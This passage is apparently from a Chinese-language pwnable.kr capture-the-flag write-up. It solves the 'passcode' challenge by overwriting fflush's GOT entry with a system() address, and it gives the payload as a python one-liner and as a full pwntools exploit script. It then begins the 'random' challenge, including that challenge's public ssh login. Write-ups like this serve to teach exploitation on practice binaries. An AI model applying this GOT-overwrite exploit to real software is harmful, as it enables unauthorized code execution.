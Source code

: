 <div align="left">
    ![checksec](/resources/2018/2018-04-27-02.png)
</div>

<div align="left">
    ![GOT表](/resources/2018/2018-04-27-03.png)
</div>

<div align="left">
    ![system地址](/resources/2018/2018-04-27-04.png)
</div>

#### 0x02 构造payload并编写exp

这里我用system的地址`覆盖fflush()`在GOT表中存的真实地址，因为scanf()以%d获取数据，所以system()的地址`0x80485e3`要转化成十进制数`134514147`,现在构造payload获取flag

```
python -c "print 'A'*96+'\x04\xa0\x04\x08'+'134514147\n'" | ./passcode
```

``` python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *

p = process('./passcode')

fflush_got = 0x0804a004
system_addr = 0x080485e3

payload = ""
payload += "A"*96
payload += p32(fflush_got)
payload += str(system_addr)

p.send(payload)
p.recv()
```

#### 0x03 总结

这道题涉及到的知识点是GOT表是可写的，scanf()如果没有加&取地址符，就会在栈上取地址作为传入的数据的存放地址


### random

> **题目描述：**
> Daddy, teach me how to use random value in programming!
> ssh random@pwnable.kr -p2222 (pw:guest)

#### 0x00 题目分析
